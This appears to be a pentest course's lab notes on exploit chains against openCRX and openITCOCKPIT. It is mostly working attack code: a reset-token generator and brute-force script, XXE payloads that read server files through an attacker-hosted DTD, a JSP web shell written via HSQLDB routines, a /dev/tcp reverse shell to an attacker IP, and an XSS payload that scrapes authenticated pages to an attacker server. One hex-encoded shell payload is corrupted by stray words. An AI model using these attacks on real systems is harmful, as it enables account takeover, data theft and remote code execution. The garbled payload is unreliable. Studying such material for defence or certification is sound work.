// OpenCRXToken.java - generate candidate tokens
import java.util.Random;
public class OpenCRXToken {
public static void main(String args[]) {
int length = 40;
long start = Long.parseLong(args[0]);
long stop = Long.parseLong(args[1]);
String token = "";
for (long l = start; l < stop; l++) {
token = getRandomBase62(length, l);
System.out.println(token);
}
}
public static String getRandomBase62(int length, long seed) {
String alphabet =
"0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
Random random = new Random(seed);
String s = "";
for (int i = 0; i < length; i++) {
s = s + alphabet.charAt(random.nextInt(62));
}
return s;
}
}# Compile and generate token list
javac OpenCRXToken.java
java OpenCRXToken 1582038122371 1582038122769 > tokens.txt
tail tokens.txt
# SCKF9pp15wUrAZj84eC7m3Z1P5PexTb9wUetcF4T
# OA1Otn7zkpspZ7pa3kIxSFsKcRdRelTKaQhmPkf3
# ...
wc -l tokens.txt
# 398 tokens.txt8.2.7 Automating Password Resets
The PasswordResetConfirm.jsp page accepts the token (t), provider (p), segment (s), username (id), and two password fields. We iterate through our candidate tokens, POSTing each until a successful reset is detected.
| Parameter | Value | Source |
|---|---|---|
t | Candidate token | Generated token list |
p | CRX | Provider name from JSP source |
s | Standard | Segment name from JSP source |
id | guest | Target username |
password1 | New password | Attacker-chosen |
password2 | New password (confirm) | Must match password1 |
#!/usr/bin/python3
# OpenCRXReset.py - brute-force password reset tokens
import requests
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('-u', '--user', help='Username to target', required=True)
parser.add_argument('-p', '--password', help='Password value to set', required=True)
args = parser.parse_args()
target = "http://[target-ip]:[port]/opencrx-core-CRX/PasswordResetConfirm.jsp"
print("Starting token spray. Standby.")
with open("tokens.txt", "r") as f:
for word in f:
payload = {
't': word.rstrip(),
'p': 'CRX',
's': 'Standard',
'id': args.user,
'password1': args.password,
'password2': args.password
}
r = requests.post(url=target, data=payload)
if "Unable to reset password" not in r.text:
print("Successful reset with token: %s" % word.rstrip())
break# Run the reset script
python3 OpenCRXReset.py -u [username] -p [new-password]
# Starting token spray. Standby.
# Successful reset with token: yzs4pCxiRTym9Srs6OrzUY0b9HtEnDK8SrPtjBUeMethodology
-
curl -s -X POST --data-binary 'id=[username]' \ 'http://[target-ip]:[port]/opencrx-core-CRX/RequestPasswordReset.jsp' -
date +%s%3N && \ curl -s -i -X POST --data-binary 'id=[username]' \ 'http://[target-ip]:[port]/opencrx-core-CRX/RequestPasswordReset.jsp' && \ date +%s%3N -
javac OpenCRXToken.java java OpenCRXToken [start_ms] [end_ms] > tokens.txt wc -l tokens.txt -
python3 OpenCRXReset.py -u [username] -p [new-password]
8.3 XML External Entity Injection
With authenticated access, the openCRX REST API becomes available. It accepts XML input via Swagger-documented endpoints, and if the XML parser is insecurely configured, XXE can read files from the server.

8.3.1 XML Entity Basics
XML entities act as variables within XML documents, defined in Document Type Definitions (DTDs). They come in three forms: internal, external, and parameter entities.
| Entity Type | Scope | Syntax | Example |
|---|---|---|---|
| Internal | Locally defined in DTD | <!ENTITY name "value"> | <!ENTITY test "Hello"> |
| External (Private) | References URI via SYSTEM | <!ENTITY name SYSTEM "URI"> | <!ENTITY xxe SYSTEM "file:///etc/passwd"> |
| External (Public) | Wide-spread use via PUBLIC | <!ENTITY name PUBLIC "id" "URI"> | <!ENTITY info PUBLIC "-//W3C//TEXT" "http://example.com/info.xml"> |
| Parameter | DTD-only, prefixed with % | <!ENTITY % name SYSTEM "URI"> | <!ENTITY % dtd SYSTEM "http://[attacker-ip]/evil.dtd"> |
8.3.2 Finding the Attack Vector
The Accounts API endpoint accepts XML for creating contacts. We first test with an internal entity to confirm the parser processes DTDs, then escalate to external entities to read server files.
<!-- Step 1: Test internal entity parsing -->
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Replaced">
]>
<org.opencrx.kernel.account1.Contact>
<lastName>&lastname;</lastName>
<firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact><!-- Step 2: XXE to read /etc/passwd -->
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<org.opencrx.kernel.account1.Contact>
<lastName>&lastname;</lastName>
<firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
The external entity read succeeds but causes an SQL INSERT error (java.sql.SQLDataException: string data, right truncation) because the file contents exceed the column size. The file contents are still visible in the verbose error response, including the full SQL statement with the parsed /etc/passwd data embedded.
# Send the XXE payload via curl (through Burp or directly)
curl -X POST \
'http://[target-ip]:[port]/opencrx-rest-CRX/org.opencrx.kernel.account1/provider/CRX/segment/Standard/account' \
-u [username]:[password] \
-H 'Content-Type: application/xml' \
-d '<?xml version="1.0"?>
<!DOCTYPE data [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<org.opencrx.kernel.account1.Contact>
<lastName>&xxe;</lastName>
<firstName>Test</firstName>
</org.opencrx.kernel.account1.Contact>'8.3.3 CDATA Wrapping for XML-Containing Files
Reading files that contain XML characters (<, >) causes parser errors. CDATA sections (<![CDATA[...]]>) instruct the parser to treat enclosed content as raw text. We use an external DTD with parameter entities to wrap file contents in CDATA tags.
<!-- wrapper.dtd - host on attacker's web server -->
<!ENTITY wrapper "%start;%file;%end;">
# Place wrapper.dtd in web root and start Apache
sudo cp wrapper.dtd /var/www/html/
sudo systemctl start apache2<!-- XXE payload with CDATA wrapping -->
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///home/[username]/crx/apache-tomee-plus-7.0.5/conf/tomcat-users.xml">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://[attacker-ip]/wrapper.dtd">
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
<lastName>&wrapper;</lastName>
<firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>The parser downloads wrapper.dtd, constructs the wrapper entity with CDATA-wrapped file contents, and inserts the result into the lastName field. File contents are visible in the response or error message regardless of XML special characters.
8.3.4 Directory Enumeration via XXE
In Java, the File class can reference directories. Modifying the XXE payload to point at a directory returns a directory listing. Use this to enumerate the filesystem for credentials and configuration files.

<!-- Read directory listing -->
<!ENTITY % file SYSTEM "file:///home/[username]/crx/data/hsqldb/">Methodology
-
curl -X POST \ 'http://[target-ip]:[port]/opencrx-rest-CRX/org.opencrx.kernel.account1/provider/CRX/segment/Standard/account' \ -u [username]:[password] -H 'Content-Type: application/xml' \ -d '<?xml version="1.0"?><!DOCTYPE d [<!ENTITY t "test">]><org.opencrx.kernel.account1.Contact><lastName>&t;</lastName><firstName>Tom</firstName></org.opencrx.kernel.account1.Contact>' -
# Host wrapper.dtd: <!ENTITY wrapper "%start;%file;%end;"> sudo cp wrapper.dtd /var/www/html/ && sudo systemctl start apache2 -
<!ENTITY % file SYSTEM "file:///home/[username]/crx/data/hsqldb/">
8.4 HSQLDB Access and RCE
Using the XXE directory enumeration, we discover HSQLDB database files and a dbmanager.sh script containing JDBC connection credentials. HSQLDB relies on ACLs or network-layer protections for access control - if the port is open and no ACLs are configured, we can connect remotely.
8.4.1 Discovering HSQLDB Credentials
The dbmanager.sh file (read via XXE with CDATA wrapping) reveals a JDBC connection string with username [db-user] and password [db-password]. The crx.properties file shows no ACLs are defined.
# Verify HSQLDB port is open
nmap -p 9001 [target-ip]
# PORT STATE SERVICE
# 9001/tcp open tor-orport
# Connect using HSQLDB Database Manager GUI
java -cp hsqldb.jar org.hsqldb.util.DatabaseManagerSwing \
--url jdbc:hsqldb:hsql://[target-ip]:9001/CRX \
--user [db-user] \
--password [db-password]8.4.2 Java Language Routines (JRT)
HSQLDB allows calling static Java methods from SQL using Java Language Routines. Functions return values and can be used in queries; procedures return void and are invoked with CALL. The method must be static, with parameters that map between Java and SQL types.
| SQL Type | Java Type |
|---|---|
CHAR / VARCHAR | String |
BINARY | byte[] (padded) |
VARBINARY | byte[] (not padded) |
-- Create a function to read Java system properties
CREATE FUNCTION systemprop(IN key VARCHAR) RETURNS VARCHAR
LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty';
-- Query system properties
VALUES(systemprop('java.class.path'));
VALUES(systemprop('user.dir'));8.4.3 Writing Files via writeBytesToFilename
Searching the Java runtime classes for public static void methods that accept a String, we find writeBytesToFilename in com.sun.org.apache.xml.internal.security.utils.JavaUtils. It accepts a filename and byte array, then writes the bytes to disk.
// JavaUtils.writeBytesToFilename - writes arbitrary files
public static void writeBytesToFilename(String paramString, byte[] paramArrayOfByte) {
FileOutputStream fileOutputStream = null;
try {
if (paramString != null && paramArrayOfByte != null) {
File file = new File(paramString);
fileOutputStream = new FileOutputStream(file);
fileOutputStream.write(paramArrayOfByte);
fileOutputStream.close();
}
} catch (IOException iOException) {
if (fileOutputStream != null) {
try { fileOutputStream.close(); } catch (IOException e) {}
}
}
}-- Create a procedure to write files
CREATE PROCEDURE writeBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename';
-- Proof of concept: write a test file
CALL writeBytesToFilename('test.txt', CAST('497420776f726b656421' AS VARBINARY(1024)));
-- Verify with systemprop to get working directory
VALUES(systemprop('user.dir'));8.4.4 Writing a JSP Web Shell
With file write capability, we target the opencrx-core-CRX web application directory to deploy a JSP web shell. The shell must be converted to ASCII hex for the VARBINARY parameter. Use Burp Decoder or Python to perform the conversion.
// Minimal JSP command shell (Linux version)
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd);
BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) {
output += s;
}
}
catch(IOException e) {
e.printStackTrace();
}
}
%>
<pre>
<%=output %>
</pre># Convert JSP shell to hex for HSQLDB
shell = open('shell.jsp', 'rb').read()
print(shell.hex())-- Write JSP web shell to opencrx-core-CRX web directory
CALL writeBytesToFilename(
'../../apache-tomee-plus-7.0.5/apps/opencrx-core-CRX/opencrx-core-CRX/shell.jsp',
CAST('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20726571756573742e676574506172616d657465722822636d6422293b0a202020537472696e67206f7574707574203d2022223b0a0a202020696628636d6420213d206e756c6c29207b0a20202020202053747472696e672073203d206e756c6c3b0a202020202020747279207b0a20202020202020202050726f636573732070203d2052756e74696d652e67657452756e74696d6528292e6578656328636d64293b0a2020202020202020204275666665726564526561646572207349203d206e657720427566666572656452656164657228e6577twentieth496e70757453747265616d52656164657228702e676574496e7075745374726561sixth282929293b0a2020202020202020207768696c65282873203d2073492e726561644c696e6528292920213d206e756c6c29207b0a2020202020202020202020206f7574707574202b3d20733b0a2020202020202020207d0a2020202020207d0a202020202020636174636828494f457863657074696f6e206529207b0a20202020202020202065002e7072696e74537461636b547261636528293b0a2020202020207d0a2020207d0a253e0a0a3c7072653e0a3c253d6f757470757420253e0a3c2f7072653e' AS VARBINARY(1024)));# Verify the web shell works
curl 'http://[target-ip]:[port]/opencrx-core-CRX/shell.jsp?cmd=hostname'
# <pre>
# opencrx
# </pre>
# Upgrade to a reverse shell
curl 'http://[target-ip]:[port]/opencrx-core-CRX/shell.jsp?cmd=bash+-c+bash+-i+>%26+/dev/tcp/[attacker-ip]/[listener-port]+0>%261'Methodology
-
scp [username]@[target-ip]:~/[app-dir]/apache-tomee-plus-7.0.5/apps/opencrx-core-CRX.ear . unzip -q opencrx-core-CRX.ear -d opencrx -
date +%s%3N && curl -s -X POST --data-binary 'id=[username]' \ 'http://[target-ip]:[port]/opencrx-core-CRX/RequestPasswordReset.jsp' && date +%s%3N -
javac OpenCRXToken.java && java OpenCRXToken [start] [stop] > tokens.txt -
python3 OpenCRXReset.py -u [username] -p [new-password] -
echo '<!ENTITY wrapper "%start;%file;%end;">' | sudo tee /var/www/html/wrapper.dtd sudo systemctl start apache2 -
java -cp hsqldb.jar org.hsqldb.util.DatabaseManagerSwing \ --url jdbc:hsqldb:hsql://[target-ip]:9001/CRX --user [db-user] --password [db-password]
9. openITCOCKPIT XSS and OS Command Injection
9.1 Overview
openITCOCKPIT is a monitoring management application built on PHP that configures Nagios and Naemon. The community edition is open source, but this module takes a black box approach to discover and chain vulnerabilities leading to remote command execution.
The exploit chain combines a DOM-based XSS vulnerability in a bundled JavaScript library with an authenticated WebSocket command injection to achieve unauthenticated RCE. These vulnerabilities are tracked as CVE-2020-10788, CVE-2020-10789, and CVE-2020-10790.
| URL | Username | Password |
|---|---|---|
https://[target-ip]/ | - | - |
ssh://[target-ip] | [username] | [password] |
Methodology
-
ssh [username]@[target-ip]
9.2 Application Discovery
Black box testing starts by building a full sitemap of the application's attack surface. Even directories containing images, CSS, and JavaScript can reveal clues about the application's internals.
9.2.1 Building a Sitemap
Browse the application while proxying through Burp Suite to populate the Target > Sitemap tab. The initial connection to the homepage reveals the application runs on HTTPS, redirects unauthenticated users to /login/login, and uses Bootstrap, jQuery, particles.js, and Font Awesome.
Vendor dependencies are stored in lib and vendor directories, while application-specific JavaScript resides in the js directory. Loading a non-existent page (e.g., /thispagedoesnotexist) triggers a 404 page that expands the Burp sitemap considerably.
The /js/vendor/UUID.js-4.0.3/ directory contains a dist subdirectory, indicating the developer included the entire library repo rather than just the built output. This creates additional attack surface from unscrutinized supporting files like test pages and documentation HTML.
# Verify extra files are accessible via the target
curl -k https://[target-ip]/js/vendor/UUID.js-4.0.3/README.md9.2.2 Targeted Discovery
To discover additional vendor libraries, generate a wordlist from the top npm packages rather than using generic directory busting lists. This targeted approach is more effective for JavaScript-heavy applications.
# Download the npm package name list (ordered by popularity)
wget https://raw.githubusercontent.com/nice-registry/all-the-package-names/bba7ca95cf29a6ae66a6617006c8707aa2658028/names.json
# Extract top 10,000 package names into a wordlist
jq '.[0:10000]' names.json | grep "," | cut -d'"' -f 2 > npm-10000.txt
# Bruteforce vendor directory with the npm wordlist
gobuster dir -w ./npm-10000.txt -u https://[target-ip]/js/vendor/ -kGobuster discovers the additional bootstrap-daterangepicker package alongside the already-known lodash, gauge, fineuploader, gridstack, and UUID.js-4.0.3 libraries.
# Create a target list of vendor package URLs
cat packages.txt
https://[target-ip]/js/vendor/fineuploader
https://[target-ip]/js/vendor/gauge
https://[target-ip]/js/vendor/gridstack
https://[target-ip]/js/vendor/lodash
https://[target-ip]/js/vendor/UUID.js-4.0.3
https://[target-ip]/js/vendor/bootstrap-daterangepicker
# Bruteforce files inside each package using quickhits.txt
while read l; do
echo "===$l==="
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -k -q -u $l
done < packages.txtThe file scan reveals README.md, bower.json, package.json, test/, and dist/ directories across the packages. Version numbers are extracted from the README files to download exact copies from GitHub.
# Extract version numbers from README.md files
while read l; do echo "===$l==="; curl $l/README.md -k; done < packages.txt
# Discovered versions:
# UUID.js: 4.0.3 (from directory name)
# gridstack: v0.2.3
# lodash: v3.9.3Download each identified library version from GitHub and search for HTML files that could introduce DOM-based XSS vulnerabilities.
# Search for HTML files across downloaded packages
find ./ -iname "*.html"
# ./lodash-3.9.3/perf/index.html
# ./lodash-3.9.3/test/underscore.html
# ./lodash-3.9.3/test/index.html
# ./lodash-3.9.3/test/backbone.html
# ./gridstack.js-0.2.3/demo/knockout2.html
# ./gridstack.js-0.2.3/demo/serialization.html
# ./UUID.js-4.0.3/docs/uuid.js.html
# ./UUID.js-4.0.3/test/browser.html
# ...Methodology
-
curl -k https://[target-ip]/thispagedoesnotexist -
curl -k https://[target-ip]/js/vendor/UUID.js-4.0.3/README.md -
wget https://raw.githubusercontent.com/nice-registry/all-the-package-names/bba7ca95cf29a6ae66a6617006c8707aa2658028/names.json jq '.[0:10000]' names.json | grep "," | cut -d'"' -f 2 > npm-10000.txt gobuster dir -w ./npm-10000.txt -u https://[target-ip]/js/vendor/ -k -
while read l; do echo "===$l==="; gobuster dir -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -k -q -u $l; done < packages.txt -
find ./ -iname "*.html"
9.3 DOM-Based XSS
The Document Object Model (DOM) is a hierarchical tree of objects representing HTML elements created by the browser's rendering engine. JavaScript manipulates the DOM via the Document interface using methods like getElementById, getElementsByTagName, and properties like innerHTML.
DOM-based XSS occurs when unsanitized user input is passed to a DOM manipulation sink like innerHTML or document.write(). Unlike reflected or stored XSS, the payload never reaches the server - it is processed entirely in the client's browser.
// Example DOM XSS - user input flows directly into document.write()
<!DOCTYPE html>
<html>
<head>
<script>
const queryString = location.search;
const urlParams = new URLSearchParams(queryString);
const name = urlParams.get('name');
document.write('<h1>Hello, ' + name + '!</h1>');
</script>
</head>
</html>
// Benign: ?name=Jimmy → "Hello, Jimmy!"
// Malicious: ?name=<script>alert(1)</script> → XSS triggeredIf such a file is hosted on a server, the vulnerability is classified as reflected DOM-based XSS. The static HTML files in vendor libraries cannot produce traditional reflected or stored XSS since the server doesn't dynamically generate them, but they may contain JavaScript that reads from the URL and writes to the DOM.
9.3.1 XSS Hunting
Search for document.write calls in HTML files across the downloaded packages to find potential DOM sinks that accept user-controlled input.
# Search for document.write in HTML files
grep -r "document.write" ./ --include *.html
# Results:
# ./lodash-3.9.3/perf/index.html: document.write('<script src="' + ui.buildPath + '"><\/script>');
# ./lodash-3.9.3/perf/index.html: document.write('<script src="' + ui.otherPath + '"><\/script>');
# ./lodash-3.9.3/test/index.html: document.write('<script src="' + ui.buildPath + '"><\/script>');
# ...The lodash-3.9.3/perf/index.html file uses ui.buildPath and ui.otherPath in document.write() to dynamically load scripts. Tracing the source of these variables reveals they originate from the URL query string.
// From lodash-3.9.3/perf/index.html
<script src="./asset/perf-ui.js"></script>
<script>
document.write('<script src="' + ui.buildPath + '"><\/script>');
</script>
<script>
document.write('<script src="' + ui.otherPath + '"><\/script>');
</script># Trace where buildPath is defined
grep -r "buildPath[[:space:]]*=" ./
# ./lodash-3.9.3/perf/asset/perf-ui.js: ui.buildPath = (function() {// From perf-ui.js - build variable is extracted from URL query string
var build = (build = /build=([^&]+)/.exec(location.search)) &&
decodeURIComponent(build[1]);
// ui.buildPath uses the build variable; the default case returns it directly
ui.buildPath = (function() {
var result;
switch (build) {
case 'lodash-compat': result = 'lodash.compat.min.js'; break;
case 'lodash-custom-dev': result = 'lodash.custom.js'; break;
case 'lodash-custom': result = 'lodash.custom.min.js'; break;
case null: build = 'lodash-modern';
case 'lodash-modern': result = 'lodash.min.js'; break;
default: return build; // User input returned directly!
}
return basePath + result;
}());The build parameter is extracted from location.search via regex and returned unsanitized in the default case of the switch statement. This value flows directly into document.write(), providing a path to DOM-based XSS through the build query parameter.
Methodology
-
grep -r "document.write\|innerHTML\|\.eval(" ./ --include *.html -
grep -r "buildPath[[:space:]]*=" ./ -
curl -k "https://[target-ip]/js/vendor/lodash/perf/index.html?build=<script>alert(1)</script>"
9.4 Advanced XSS Exploitation
A basic alert box proves the vulnerability but does not advance exploitation. The next step is escalating access through an authenticated victim's session.
9.4.1 Capabilities and Limitations
The session cookie itnovum has the HttpOnly flag set, preventing JavaScript from reading it directly. However, the browser still includes the cookie in all same-origin requests triggered by JavaScript (XHR/fetch), so XHR and fetch calls ride the victim's session to reach authenticated content.
| Capability | Available | Notes |
|---|---|---|
| Steal session cookie | No | HttpOnly flag blocks document.cookie access |
| Read same-origin pages | Yes | Same-Origin Policy allows XHR/fetch to same domain |
| Manipulate DOM | Yes | Full control over what victim sees |
| Send data to attacker | Yes | Requires CORS header on attacker server |
| Access authenticated pages | Yes | Browser sends cookie automatically with XHR requests |
The Same-Origin Policy (SOP) allows JavaScript running on https://[target-ip]/js/vendor/lodash/perf/index.html to send XHR requests to https://[target-ip]/ and read the responses. Since the XSS runs on the same origin as the target, we can scrape any authenticated page and forward the content to our attacker server.
The exploitation setup has three parts: a client.js payload (served to the victim via XSS), a SQLite database for storage, and a Flask API server to receive scraped content. The XSS page shows a fake login screen while scraping the authenticated user's pages in the background.
9.4.2 Writing to DOM
Use the Firefox Developer Console (Ctrl+Shift+K) to test DOM manipulation. The document.getElementsByTagName() method queries for elements, and the innerHTML property replaces element content.
// Query and manipulate the DOM
body = document.getElementsByTagName("body")[0];
// View current content
body.innerHTML;
// Replace entire page content with fake login
body.innerHTML = "<h1>Magic!</h1>";
// In the real exploit, replace with a copy of the openITCOCKPIT login page HTML
// to keep the victim engaged while background scraping runs9.4.3 Creating the Database (db.py)
The database script handles SQLite storage for scraped content. It works both as a standalone CLI tool and as an importable module.
#!/usr/bin/python3
# db.py - SQLite database for XSS content storage
import sqlite3
import argparse
import os
def create_connection(db_file):
conn = None
try:
conn = sqlite3.connect(db_file)
except Exception as e:
print(e)
return conn
def create_db(conn):
createContentTable = """CREATE TABLE IF NOT EXISTS content (
id integer PRIMARY KEY,
location text NOT NULL,
content blob);"""
try:
c = conn.cursor()
c.execute(createContentTable)
except Exception as e:
print(e)
def insert_content(conn, content):
sql = "INSERT INTO content(location, content) VALUES(?, ?)"
cur = conn.cursor()
cur.execute(sql, content)
return cur.lastrowid
def get_content(conn, location):
cur = conn.cursor()
cur.execute("SELECT content FROM content WHERE location=?", location)
rows = cur.fetchall()
return rows
def get_locations(conn):
cur = conn.cursor()
cur.execute("SELECT location FROM content")
rows = cur.fetchall()
return rows
if __name__ == "__main__":
database = r"sqlite.db"
parser = argparse.ArgumentParser()
group = parser.add_mutually_exclusive_group(required=True)
group.add_argument('--create', '-c', help='Create Database', action='store_true')
group.add_argument('--insert', '-i', help='Insert Content', action='store_true')
group.add_argument('--get', '-g', help='Get Content', action='store_true')
group.add_argument('--getLocations', '-l', help='Get all Locations', action='store_true')
parser.add_argument('--location', '-L')
parser.add_argument('--content', '-C')
args = parser.parse_args()
conn = create_connection(database)
if args.create:
print("[+] Creating Database")
create_db(conn)
elif args.insert:
if args.location is None and args.content is None:
parser.error("--insert requires --location, --content.")
else:
print("[+] Inserting Data")
insert_content(conn, (args.location, args.content))
conn.commit()
elif args.get:
if args.location is None:
parser.error("--get requires --location.")
else:
print("[+] Getting Content")
print(get_content(conn, (args.location,)))
if args.getLocations:
print("[+] Getting All Locations")
print(get_locations(conn))# Initialize the database
python3 db.py --create9.4.4 Creating the API Server (api.py)
The Flask API server receives scraped content from the XSS payload running in the victim's browser. CORS headers are required to allow cross-origin requests from the target domain. Since the target uses HTTPS, the API server must also use HTTPS to avoid mixed-content blocking.
# Generate self-signed certificate for the API server
openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 365
# Install flask-cors
pip3 install flask_cors#!/usr/bin/python3
# api.py - Flask API server for XSS data collection
from flask import Flask, request, send_file
from db import create_connection, insert_content, create_db
from flask_cors import CORS
app = Flask(__name__)
CORS(app)
database = r"sqlite.db"
@app.route('/client.js', methods=['GET'])
def clientjs():
print("[+] Sending Payload")
return send_file('./client.js', attachment_filename='client.js')
@app.route('/content', methods=['POST'])
def content():
url = request.form.get('url')
content = request.form.get('content')
conn = create_connection(database)
insert_content(conn, (url, content))
conn.commit()
print("[+] Received content from: %s" % url)
return "OK"
app.run(host='0.0.0.0', port=443, ssl_context=('cert.pem', 'key.pem'))# Start the API server
sudo python3 api.py
# * Running on https://0.0.0.0:443/
# Accept the self-signed certificate in Firefox by visiting https://[attacker-ip]/9.4.5 Scraping Content (client.js)
The client.js payload replaces the visible page with a fake login screen, then loads the authenticated homepage in a hidden iframe. After a delay for JS rendering, it extracts and deduplicates all links, then sends each page's content to the attacker's API server.
// client.js - XSS payload for scraping authenticated content
// Step 1: Replace page with fake login to keep victim engaged
var html = document.getElementsByTagName("html")[0];
html.innerHTML = '<!-- Paste captured openITCOCKPIT login page HTML here -->';
// Step 2: Create hidden iframe to load the authenticated homepage
var iframe = document.createElement('iframe');
iframe.setAttribute("style", "display:none");
iframe.onload = actions;
iframe.width = "100%";
iframe.height = "100%";
iframe.src = "https://[target-ip]";
var body = document.getElementsByTagName('body')[0];
body.appendChild(iframe);
// Step 3: Wait for JS-rendered content, then scrape
function actions() {
setTimeout(function() { getContent(); }, 5000);
}
function validURL(url) {
try {
var u = new URL(url);
if (u.protocol !== "http:" && u.protocol !== "https:") return false;
var blocked = ["logout", "log-out", "signout", "sign-out"];
for (var i = 0; i < blocked.length; i++) {
if (url.toLowerCase().indexOf(blocked[i]) > -1) return false;
}
return true;
} catch (e) {
return false;
}
}
function getContent() {
// Extract all links from the iframe
var allA = iframe.contentDocument.getElementsByTagName("a");
var allHrefs = [];
for (var i = 0; i < allA.length; i++) {
allHrefs.push(allA[i].href);
}
// Deduplicate using lodash (available from the exploited page)
var uniqueHrefs = _.unique(allHrefs);
// Filter to valid URLs only
var validUniqueHrefs = [];
for (var i = 0; i < uniqueHrefs.length; i++) {
if (validURL(uniqueHrefs[i])) {
validUniqueHrefs.push(uniqueHrefs[i]);
}
}
// Fetch each page and send content to attacker API
validUniqueHrefs.forEach(href => {
fetch(href, {
"credentials": "include",
"method": "GET",
})
.then((response) => {
return response.text();
})
.then(function(text) {
fetch("https://[attacker-ip]/content", {
body: "url=" + encodeURIComponent(href) +
"&content=" + encodeURIComponent(text),
headers: {
"Content-Type": "application/x-www-form-urlencoded"
},
method: "POST"
});
});
});
}9.4.6 Dumping the Contents (dump.py)
After the victim visits the XSS link, the API server stores scraped page content in the SQLite database. The dump script exports each stored page as an HTML file, preserving the URL structure as the directory layout.
#!/usr/bin/python3
# dump.py - Export scraped content to HTML files
import os
from db import create_connection, get_content, get_locations
database = r"sqlite.db"
contentDir = os.getcwd() + "/content"
def write_to_file(url, content):
fileName = url.replace('https://', '')
if not fileName.endswith(".html"):
fileName = fileName + ".html"
fullname = os.path.join(contentDir, fileName)
path, basename = os.path.split(fullname)
if not os.path.exists(path):
os.makedirs(path)
with open(fullname, 'w') as f:
f.write(content)
if __name__ == '__main__':
conn = create_connection(database)
locations = get_locations(conn)
for l in locations:
content = get_content(conn, l)
write_to_file(l[0], content)# Dump all scraped content to files
python3 dump.py
ls content/[target-ip]/Methodology
-
openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 365 python3 db.py --create sudo python3 api.py -
# Victim URL: # https://[target-ip]/js/vendor/lodash/perf/index.html?build=https://[attacker-ip]/client.js -
python3 dump.py ls content/[target-ip]/
9.5 OS Command Injection via WebSocket
The scraped content reveals a WebSocket server and authentication key in the appData JavaScript object on the commands page. The websocket_url endpoint (wss://[target-ip]/sudo_server) and the akey value enable direct interaction with a privileged command execution service.
// Discovered in commands.html - appData object
var appData = {
"jsonData": {
"websocket_url": "wss://[target-ip]/sudo_server",
"akey": "1fea123e07f730f76e661bced33a94152378611e"
},
"controller": "Commands",
"action": "index"
};9.5.1 Analyzing the WebSocket Protocol
Download and beautify the custom JavaScript files to understand the WebSocket communication protocol. The WebsocketSudoComponent in components.js defines the connection, message handling, and command format.
# Filter custom JS files from scraped HTML (exclude vendor/lib/plugin)
cat commands.html | grep -E "script.*src" | grep -Ev "vendor|lib|plugin"
# Download custom JavaScript files
wget --no-check-certificate -q -i list.txt
# Beautify compressed files for analysis
pip3 install jsbeautifier
for f in compressed_*.js; do
js-beautify $f > pretty/"${f//compressed_}"
done// WebsocketSudoComponent from components.js (lines 1248-1331)
// toJson - builds the message sent to the WebSocket server
toJson: function(task, data) {
var jsonArr = JSON.stringify({
task: task,
data: data,
uniqid: this._uniqid,
key: this._key
});
return jsonArr;
},
// _onResponse - handles server messages
_onResponse: function(e) {
var transmitted = JSON.parse(e.data);
switch (transmitted.type) {
case 'connection':
this._uniqid = transmitted.uniqid;
this.__success(e);
break;
case 'response':
if (this._uniqid === transmitted.uniqid) {
this._callback(transmitted);
}
break;
case 'dispatcher':
this._dispatcher(transmitted);
break;
case 'event':
if (this._uniqid === transmitted.uniqid) {
this._event(transmitted);
}
break;
case 'keepAlive':
break;
}
},
// setup - sets the WebSocket URL and key
setup: function(wsURL, key) {
this._wsUrl = wsURL;
this._key = key;
},
// connect - establishes the WebSocket connection
connect: function() {
if (this._connection === null) {
this._connection = new WebSocket(this._wsUrl);
}
this._connection.onopen = this._onConnectionOpen.bind(this);
this._connection.onmessage = this._onResponse.bind(this);
this._connection.onerror = this._onError.bind(this);
return this._connection;
}Grepping for send( calls reveals available WebSocket commands sent from the client, including execute_nagios_command which passes user input directly as the command payload.
# Find all commands sent via WebSocket
grep -r "send(" ./ --exclude="compressed*" | grep -v ".send"| Source File | Command |
|---|---|
| components.js | requestUniqId, keepAlive |
| controllers.js | execute_nagios_command, package_install, package_uninstall, apt_get_update, nagiostats |
| angular_directives.js | sendCustomHostNotification, submitHoststateAck, rescheduleHost, submitHostDowntime, etc. |
// execute_nagios_command found in controllers.js (loadConsole function)
loadConsole: function() {
this.$jqconsole = $('#console').jqconsole('', 'nagios$ ');
var startPrompt = function() {
var self = this;
self.$jqconsole.Prompt(!0, function(input) {
self.WebsocketSudo.send(
self.WebsocketSudo.toJson('execute_nagios_command', input)
);
startPrompt();
});
}.bind(this);
startPrompt();
}9.5.2 Building a WebSocket Client (wsclient.py)
A Python WebSocket client connects to the sudo_server directly, authenticates with the discovered akey, and sends commands via the execute_nagios_command task.
#!/usr/bin/python3
# wsclient.py - WebSocket client for openITCOCKPIT sudo_server
import websocket
import ssl
import json
import argparse
import _thread as thread
uniqid = ""
key = ""
def toJson(task, data):
req = {
"task": task,
"data": data,
"uniqid": uniqid,
"key": key
}
return json.dumps(req)
def on_message(ws, message):
global uniqid
mes = json.loads(message)
if "uniqid" in mes.keys():
uniqid = mes["uniqid"]
